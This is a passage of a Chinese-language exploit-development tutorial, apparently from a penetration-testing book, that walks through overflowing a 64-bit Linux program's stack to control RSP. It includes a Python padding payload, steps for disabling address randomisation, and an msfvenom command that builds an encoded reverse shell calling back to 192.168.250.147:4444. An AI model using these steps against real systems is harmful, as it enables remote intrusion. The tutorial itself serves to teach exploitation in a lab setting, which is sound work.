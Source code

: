 我们将再次使用 Metasploit Ruby 模块来获取这个唯一值的偏移量，以找到我们有效负载的确切位置。之后，我们应该放置跳转指令，使 RSP 跳转到我们选择的位置：

![](img/1a1b3edf-db63-4d94-a537-46e7e3849b43.png)

因此，我们知道在地址`424`之后写入的下一个八个字节将被写入我们的`rsp`寄存器。让我们尝试写入`bbbb`，看看是否是这种情况。我们生成的有效负载将如下所示：`424*a + 4*b + 72*c`。要使用的确切命令是这个：

```py
python -c "print 'A'*424+ 'b'*4 + 'C'*72" > abc
```

现在，鉴于我们已经验证了我们可以控制寄存器 RSP，让我们尝试攻击 r9 寄存器，以容纳我们的 shell 代码。但在这样做之前，重要的是我们知道 r9 寄存器的位置。在下面的屏幕截图中，我们可以看到 r9 寄存器的内存位置是`0x7fffffffded0`，但每次程序重新加载时都会发生变化：

![](img/858efe7d-0f3e-47f7-8aae-6487e4ed1e46.png)

有两种方法可以解决这个问题。第一种方法是通过在操作系统级别禁用动态地址更改来避免它，可以在以下屏幕截图中看到。另一种方法是找到具有`jmp r9`命令的任何指令的地址**。**我们可以在程序的整个汇编代码中搜索`jmp r9`，然后将位置的地址放入我们的寄存器 RSP，从而避免动态地址更改。我将把这留给你自己去想出并做。在本节中，让我们通过执行以下操作来禁用动态地址加载：

![](img/f236b2f1-2a66-4009-8a3b-4b4158a2a706.png)

现在，由于我们正在使用 Kali 机器，让我们生成一个将放置在我们最终的利用代码中的反向 shell 有效负载：

```py
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.250.147 LPORT=4444  -e x64/xor ‐b "\x00\x0a\x0d\x20" -f py
```

为了找出正在测试的底层软件的常见坏字符，最成功的方法是反复试验。我通常用来找出常见的坏字符的方法是将所有唯一字符发送到应用程序，然后使用调试器，检查寄存器级别发生了哪些字符变化。发生变化的字符可以被编码和避免。

上述命令将产生以下屏幕截图：

